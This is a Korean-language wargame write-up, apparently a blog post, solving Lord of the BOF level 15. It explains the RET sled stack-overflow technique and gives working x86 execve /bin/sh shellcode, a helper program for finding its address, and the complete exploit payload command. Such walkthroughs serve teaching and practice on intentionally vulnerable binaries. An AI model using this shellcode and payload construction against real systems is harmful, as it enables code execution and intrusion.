 ```yaml
---
layout: post
title: "The Lord of the BOF - Level 15"
comments: true
categories: [LOB]
tags: [LOB]
---
```

<img data-action="zoom" src='{{ "assets/lob/level15/1.jpg" | relative_url }}' alt='relative'>  

## 1) giant/one step closer 입력하여 로그인하기  

<img data-action="zoom" src='{{ "assets/lob/level15/2.png" | relative_url }}' alt='relative'>  

48번째 byte는 '\xbf'이거나 '\x40'이면 안 됩니다.  
또한 buffer 배열과 SFP를 모두 0으로 덮어 씁니다.  

이 문제는 RET Sled 문제입니다.  

## 2) RET Sled란?  

ret 명령을 한 번 더 실행시켜 shellcode를 실행시킵니다. RET에 ret 가젯을 삽입해 RET를 뒤로 지연시켜 Sled라고 부릅니다.  
삽입된 ret 가젯으로 shellcode 주소로 jump하여 shellcode를 실행합니다.  

기존 프로그램은 ret 명령을 수행하면 esp 레지스터가 가리키는 주소에 저장된 값이 eip 레지스터에 pop 되고, eip 레지스터에 저장된 주소로 jump 합니다.  
즉, pop-jump 흐름으로 진행됩니다. 하지만 RET Sled는 pop-pop-jump 흐름으로 진행됩니다.  

RET Sled의 흐름으로 shellcode를 진행시키고자 한다면 스택에 buffer 40 byte, SFP 4 byte, RET 4 byte 순서로 저장되어 있는 형식을 buffer 40 byte, dummy 4 byte, &ret 4 byte, &shellcode 4 byte 순서로 저장합니다.  

ret 명령어에서 eip는 &ret 주소를 저장(pop)하고 &ret 주소로 이동(jump)합니다. 그러면 ret 명령을 또 실행하게 됩니다. esp는 &ret 다음에 저장되어 있는 &shellcode 주소를 가리키고 있으므로 eip는 &shellcode를 저장(pop)하고 &shellcode 주소로 이동(jump)합니다.  

RET Sled로 이 문제를 해결하기 위해:  
#### (1) ret의 주소 확인하기  

#### (2) shellcode를 환경변수에 저장하기  

두 작업을 먼저 진행해야 합니다.  

## 3) ret 주소 확인하기  

<img data-action="zoom" src='{{ "assets/lob/level15/3.png" | relative_url }}' alt='relative'>  

ret 명령어는 0x804851e 주소에 저장되어 있습니다.  

&ret에는 0x804851e을 입력하면 됩니다. 리틀엔디언 형식이니 페이로드에는 "\x1e\x85\x04\x08"을 입력하면 됩니다.  

## 4) shellcode 환경변수에 저장하기  

``` bash 
export EGG=`python -c 'print "\x90"*100+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`
```

``` c
// getenv.c
#include <stdio.h>
#include <stdlib.h>
int main(void) {
	printf("ADDR: %p\n", getenv("EGG"));
	return 0;
}
```

<img data-action="zoom" src='{{ "assets/lob/level15/4.png" | relative_url }}' alt='relative'>  

shellcode를 담고있는 환경변수는 0xbffffe57 주소에 저장되어 있습니다.  

&shellcode에는 0xbffffe57을 입력하면 됩니다. 리틀엔디언 형식이니 페이로드에는 "\x57\xfe\xff\xbf"을 입력하면 됩니다.  

## 5) 페이로드 입력하여 BOF 일으키기  

앞서 모은 정보로 페이로드를 완성시켰습니다.  

``` bash 
./assassin `python -c 'print "\x90"*44+"\x1e\x85\x04\x08"+"\x57\xfe\xff\xbf"'`
```

<img data-action="zoom" src='{{ "assets/lob/level15/5.png" | relative_url }}' alt='relative'>  